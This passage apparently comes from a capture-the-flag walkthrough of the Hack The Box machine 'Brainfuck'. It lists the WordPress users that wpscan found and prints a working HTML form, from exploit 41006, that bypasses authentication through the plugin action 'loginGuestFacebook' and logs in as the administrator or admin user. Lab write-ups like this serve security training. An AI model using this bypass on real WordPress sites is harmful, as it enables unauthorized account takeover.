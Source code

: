 This returns the following users:

- `admin`
- `administrator`

![wpscan_users](./brainfuck/wpscan_users.png)

Creating the HTML form with the following sets up the payload:

```html
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
	Username: <input type="text" name="username" value="">
	<input type="hidden" name="email" value="sth">
	<input type="hidden" name="action" value="loginGuestFacebook">
	<input type="submit" value="Login">
</form>
```

Trying the user `administrator`, clicking the "Login" button, and browsing to the page `https://brainfuck.htb/wp-admin/index.php` shows the following instead of the normal WordPress login page:

![administrator](./brainfuck/administrator.png)

Looking at the left side menu, this user does not have many privileges. Logout of the `administrator` account and use the HTML form from exploit 41006 to login as the `admin` user:
